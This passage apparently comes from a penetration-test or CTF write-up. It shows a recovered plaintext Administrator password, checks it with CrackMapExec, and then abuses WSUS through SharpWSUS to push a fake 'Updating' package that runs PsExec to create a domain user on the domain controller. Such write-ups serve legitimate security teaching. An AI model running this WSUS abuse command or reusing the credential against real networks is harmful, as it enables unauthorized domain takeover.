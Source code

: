 <img src="attachments/ad6d1e08f57cab775a0b956134f69da4.png" />

```
Administrator : 9@s8L![4$.F}9.
```

We also confirmed that the credentials were working using CrackMapExec.

<img src="attachments/68384b5c6cb87914a369808b08ad0957.png" />

### Abusing WSUS To Become Domain Admin

We knew that WSUS was installed, which is a solution for deploying Windows updates to systems in a domain. In this setup, the hosts did not have to reach out to the internet to get updates; instead, they could retrieve updates internally.

We used the [SharpWSUS](https://github.com/techspence/SharpWSUS) to perform further attacks.

Since the SRV was the WSUS server from which updates were deployed and we were local administrators, we could deploy malicious updates to the DC, such as adding our own user to become part of the domain admins. First, we had to create a domain user.

```
cmd.exe /c 'SharpWSUS.exe create /payload:"C:\Users\Administrator\Documents\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \" net user destiny Password@123 /add \"" /title:"Up  
dating"'
```
